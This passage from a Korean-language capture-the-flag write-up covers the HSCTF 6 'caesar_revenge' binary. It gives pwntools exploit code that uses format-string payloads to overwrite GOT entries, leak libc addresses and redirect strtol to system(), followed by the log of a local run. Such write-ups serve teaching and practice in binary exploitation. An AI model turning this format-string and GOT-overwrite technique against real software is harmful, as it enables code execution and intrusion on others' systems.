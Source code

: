 ```python
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# libc leak
payload = "%25$s".ljust(8, ' ')
payload += p64(addr_strtol_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

p.recvuntil("Result: ")
addr_strtol = u64(p.recv(6).ljust(8, '\x00')) # address of strtol()
log.info("address of strtol(): " + hex(addr_strtol) + ", " + str(addr_strtol))
addr_libc = addr_strtol - offset_strtol # address of libc base
log.info("address of libc base: " + hex(addr_libc) + ", " + str(addr_libc))
addr_system = addr_libc + offset_system # address of system()
log.info("address of system(): " + hex(addr_system) + ", " + str(addr_system))

pause()
```

간단하게 릭을 수행할 수 있다. 딱히 설명할 건 없을 것 같다. 실행 결과는 다음과 같다.

```bash
chykor12@ubuntu:~/HSCTF 6$ python exploit_caesar_revenge.py
[*] '/home/chykor12/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2841
[*] address of strtol(): 0x7f919f63e110, 140263421108496
[*] address of libc base: 0x7f919f5f9000, 140263420825600
[*] address of system(): 0x7f919f648440, 140263421150272
[*] Paused (press any to continue)
```

---

이번에는 `strtol()`의 GOT에 `system()`의 주소를 넣을 것이다. 위의 결과를 보면, 두 함수의 주소의 앞의 2바이트는 다를 수 없기 때문에 뒤의 4바이트만 바꿔 주면 된다. 4바이트를 한번에 쓰면 상당히 비효율적이므로 2바이트씩 나눠서 쓰자. `%hn`을 사용하면 2바이트 공간에 값을 쓸 수 있다.

```python
# exploit_caesar_revenge.py

from pwn import *

e = ELF("./caesar_revenge")

addr_puts_got = e.got["puts"] # GOT address of puts()
addr_strtol_got = e.got["strtol"] # GOT address of strtol()
addr_caesar = 0x401196 # address of caesar()
offset_strtol = 0x45110 # offset of strtol() from libc base
offset_system = 0x4f440 # offset of system() from libc base

p = process("./caesar_revenge")

# make loop
payload = "%" + str(addr_caesar) + "x%26$ln"
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

```